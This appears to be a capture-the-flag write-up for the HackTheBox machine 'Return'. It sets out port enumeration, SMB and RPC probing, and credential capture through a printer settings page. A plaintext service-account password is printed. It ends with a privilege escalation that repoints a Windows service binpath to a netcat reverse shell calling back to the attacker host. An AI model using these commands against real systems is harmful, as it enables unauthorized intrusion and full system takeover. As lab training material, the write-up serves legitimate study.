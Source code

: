 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 80
	- Microsoft IIS httpd 10.0
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (in: return.local0., Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (in: return.local0., Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
- 80
	- Default landing page
		- ![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Return/Images/Return01.PNG)
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- /settings.php
				- ![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Return/Images/Return02.PNG)
				- Change IP to A_IP
				- nc -lvnp 389
				- Run update
					- `return\svc-printer:1edFg43012!!
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- svc-printer
	- crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
		- READ WRITE over C$
	- evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
### PE
#### Windows
- svc-printer
	- whoami /all
		- SeMachineAccountPrivilege  - add account a machine to domain
		- SeLoadDriverPrivilege  -  vulnerable driver and exploiting
			- https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system
		- SeBackupPrivilege - get arbitrary file read
			- https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#shell-as-svc_backup
	- net user USERNAME
		- Check group memberships
		- Server Operators
			- Allows us to modify services
			- Upload nc.exe to target
			- On Kali: nc -lvnp 443
			- Option 1
				- `sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd Kali_IP 443"
				- sc.exe stop VSS
				- sc.exe start VSS
			- Option2
				- `sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd Kali_IP 443"
				- sc.exe start VSS
			- Both options land us a shell as NT Authority